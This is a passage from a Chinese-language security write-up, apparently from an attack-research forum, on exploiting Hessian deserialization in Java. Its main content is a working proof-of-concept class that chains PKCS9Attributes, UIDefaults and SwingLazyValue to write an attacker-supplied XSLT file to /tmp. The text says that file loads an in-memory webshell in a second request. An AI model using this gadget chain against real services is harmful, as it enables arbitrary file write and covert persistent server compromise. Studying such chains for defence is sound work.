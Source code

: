 文件内容如上，加载恶意类，也就是内存马。那么为了加载xslt，我们还需要有一个payload去写入恶意的xslt，用到的gadgets还是一样的。

```java
package com.javasec.pocs.hessian;
import com.caucho.hessian.io.Hessian2Output;
import com.javasec.utils.SerializeUtils;
import sun.security.pkcs.PKCS9Attribute;
import sun.security.pkcs.PKCS9Attributes;
import sun.swing.SwingLazyValue;

import javax.swing.*;
import java.io.FileOutputStream;

public class HessianProxyLVFileWrite {
    public static void main(String[] args) throws Exception {
        //Pkcs9可以换成MimeTypeParameterList
        PKCS9Attributes pkcs9Attributes = SerializeUtils.createWithoutConstructor(PKCS9Attributes.class);
        UIDefaults uiDefaults = new UIDefaults();
        //PKCS9Attribute.EMAIL_ADDRESS_OID 是固定的，调试流程可以看到逻辑
        //去修改需要读取的文件，和写入的文件名，实例中是读取1.txt写入pwned.txt
        uiDefaults.put(PKCS9Attribute.EMAIL_ADDRESS_OID, new SwingLazyValue("com.sun.org.apache.xml.internal.security.utils.JavaUtils", "writeBytesToFilename", new Object[]{"/tmp/1.xslt",SerializeUtils.getFileBytes("E:\\payload.xslt")}));
        SerializeUtils.setFieldValue(pkcs9Attributes,"attributes",uiDefaults);
        FileOutputStream fileOut = new FileOutputStream("poc.ser");
        Hessian2Output out = new Hessian2Output(fileOut);
        fileOut.write(67);
        out.getSerializerFactory().setAllowNonSerializable(true);
        out.writeObject(pkcs9Attributes);
        out.close();
        fileOut.close();
    }
}

```

这里选用JavaUtils的writeBytesTofilename即可。

五、合
===

确认了Gadgets和内存马后，我们就可以直接打两次poc了。  
这里就以本机为例子，看看curl指令的结果。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-ad6ed7dbaecf6e74419eeff25b49e1ee80cbc469.png)  
第一发是写入payload

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-a625409621b91880cca24089eb8d77f7ccb28d33.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-2e0411412c55ee14721e0cb7bd1cca88fb3400ee.png)  
成功写入，第二发就是去加载xslt文件
